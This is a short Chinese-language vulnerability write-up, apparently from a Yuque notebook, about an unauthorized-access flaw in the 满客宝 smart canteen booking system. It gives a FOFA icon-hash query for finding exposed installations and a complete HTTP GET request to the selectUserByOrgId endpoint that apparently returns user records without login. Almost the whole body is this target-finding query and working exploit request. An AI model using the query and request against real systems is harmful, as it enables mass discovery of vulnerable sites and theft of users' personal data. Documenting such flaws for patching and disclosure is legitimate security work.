 # 满客宝智慧食堂预定系统selectUserByOrgId 存在未授权访问漏洞

# 一、漏洞简介
满客宝智慧食堂预定系统selectUserByOrgId 存在未授权访问漏洞

# 二、影响版本
+ 满客宝智慧食堂预定系统

# 三、资产测绘
+ fofa`icon_hash="-409875651" `
+ 特征

![1722533721568-8ccae965-cf23-41b8-9b0f-087e222a1df4.png](./img/S161PTrhLGIcPwyy/1722533721568-8ccae965-cf23-41b8-9b0f-087e222a1df4-867868.png)

# 四、漏洞复现
```java
GET /yuding/selectUserByOrgId.action?record= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
```

![1722533694097-958173f0-a710-4928-98ef-cf3474338592.png](./img/S161PTrhLGIcPwyy/1722533694097-958173f0-a710-4928-98ef-cf3474338592-016901.png)



> 更新: 2024-08-12 17:15:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ikk2p8bp66933w1b>